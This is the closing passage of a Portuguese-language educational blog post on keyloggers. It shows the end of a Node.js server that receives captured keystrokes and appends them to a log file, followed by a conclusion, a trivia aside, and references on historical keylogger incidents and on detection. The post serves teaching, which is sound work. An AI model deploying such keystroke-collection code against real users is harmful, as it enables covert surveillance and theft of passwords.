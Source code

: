 ```javascript
        // (por exemplo, <Del> ou <F5>)
        if(k.length > 1)
            k = "<" + k + ">";

        // Adicionamos a string da tecla ao final do arquivo de log
        fs.appendFile("./log.txt", k, function(err) {
            if(err) throw err;
        });
    }
    // E, por fim, retornamos um status de 304 - Not Modified
    res.sendStatus(304);
});

// Terminamos abrindo o servidor na porta 3000
http.listen(3000, function(){ console.log("Listening on *:3000\n") });
```
## Conclusão
O tópico de keyloggers é muito mais extenso do que eu poderia tentar cobrir em um post somente. Nesse artigo, vimos somente a ponta do iceberg sobre o assunto, com exemplos bem simples e restritos. Porém, se tudo correu bem, espero que você, querido leitor, tenha adquirido algum conhecimento com isso tudo.

Para aprender mais sobre keyloggers, abaixo estão as referências e links recomendados.

Mas, antes, deixo um fato que você não pediu sobre algo que você não se interessa:

> Avestruzes não têm dentes e, portanto, engolem pedras (chamadas gastrólitos) para ajudar com a digestão. <sup>[[ref 1]](http://www.dinosaurhunter.org/files/app-2007-wings-gastrolith_function_classification.pdf) [[ref 2]](http://www.dinosaurhunter.org/files/wings_2003_-_ostrich_gastrolith_release.pdf) [[ref 3]](https://www.ncbi.nlm.nih.gov/pubmed/17254987)</sup>

## Referências

Todo código utilizado neste artigo está disponível em: [https://github.com/MatheusAvellar/gris-blog](https://github.com/MatheusAvellar/gris-blog)

Caso do incidente com a embaixada americana e suas máquinas de escrever com keyloggers:
- [wikipedia.org](https://en.wikipedia.org/wiki/IBM_Selectric_typewriter#Eavesdropping)
- [arstechnica.com](https://arstechnica.com/information-technology/2015/10/how-soviets-used-ibm-selectric-keyloggers-to-spy-on-us-diplomats/)

Informações sobre o GUNMAN Project:
- [rijmenants.blogspot.com.br](https://rijmenants.blogspot.com.br/2012/11/the-gunman-project.html)
- [nsa.gov (PDF)](https://www.nsa.gov/about/cryptologic-heritage/historical-figures-publications/publications/assets/files/gunman-project/Learning_From_the_Enemy_The_GUNMAN_Project.pdf)

"Detecting Hardware Keyloggers":
- [conference.hackinthebox.org (PDF)](http://conference.hackinthebox.org/hitbsecconf2010kul/materials/D1T1%20-%20Fabian%20Mihailowitsch%20-%20Detecting%20Hardware%20Keyloggers.pdf)

Código para um keylogger em C# (.NET), para Windows:
 - [stackoverflow.com (❤)](https://stackoverflow.com/a/604417/4824627)

